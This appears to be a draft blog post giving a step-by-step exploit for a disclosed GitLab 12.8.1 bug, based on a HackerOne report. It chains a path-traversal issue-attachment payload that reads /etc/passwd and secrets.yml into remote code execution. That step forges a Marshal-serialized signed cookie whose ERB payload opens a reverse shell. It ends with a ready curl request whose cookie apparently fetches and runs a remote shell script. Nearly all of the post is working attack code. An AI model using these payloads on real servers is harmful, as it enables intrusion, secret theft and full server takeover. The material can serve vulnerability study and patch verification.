```yaml
---
published: false
---
```


This blog post will cover arbitrary file read vulnerability in GitLab 12.8.1.The vulnerability occurs when moving and issues between projects. [here](https://hackerone.com/reports/827052 "here") you can find the vulnerability in hackerone. Also we can turn this vulnerability into RCE as the *cookies_serializer*. 

## Step 1: Arbitrary file read
First, we need to create two projects. Create two projects and name them Project 1 and Project 2. 
 --img 1--

Then go into project 1 and create an issue. Under Description, field put the following payload and click on submit the issue.

```shell
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)  

```
--img 2 -- 

Then select **Move issue** at bottom most right corner and select project 2 and finally click on **Move **to  move this issue to project 2. 

--img 3 -- 

Once your issue is moved to project1 you can see an attachment of passwd below Issue1. Click on the attachment of the password to download it.

--img 4 --

Now we have confirmed that we can read OS file by this vulnerability.

## Step 2: RCE

We can turns this arbitrary file read into remote code execution. this can be done by first grabbing the **secret_key_base** value from **secrets.yml** using the arbitrary file read and then use the **experimentation_subject_id** cookie with a Marshalled payload.

Following the above step, now we can grab the **secret_key_base** value from **secrets.yml** which is located in **/opt/gitlab/embedded/service/gitlab-rails/config/** and use this to perform an RCE. 

--img 5 -- 

According to the hackerone report  [here](https://hackerone.com/reports/827052 "here") we need to self-hosted gitlab to get the  Marshalled payload. For this, I am going to install GitLab image in my docker as a container. 

```shell
sudo docker run --rm -d -p 4443:443 -p 8090:80 -p 2222:22 --name gitlab gitlab/gitlab-ce:12.8.1-ce.0
sudo docker exec -ti bash
```
After that we need to replace the **secret_key_base** in **secrets.yml** file in our local gitlab instance. In the local gitlab server swap the **secret_key_base** value that we grabbed above. 

```shell
nano /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```

After reconfigured our GitLab server we can create Marshalled Payload by putting following payloads in gitlab-rails console one by one.

First we need to start rails console.
```shell
gitlab-rails console
```
for cookie generation

```shell
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/YOUR IP PORT 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
We have got a marshalled payload. You can assume it as a cookie. Now using this cookie we will make request to https://gitlabserver.com/users/sign_in and this will get reverse connection on your netcat listener.

```shell
curl -vvv -k 'https://gitlabserver.com/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiaSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4xMy9zaGVsbC5zaCB8IGJhc2hgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--94b17553fb6a110472a87df915e1a5765a25219b"

```

## References
https://hackerone.com/reports/827052



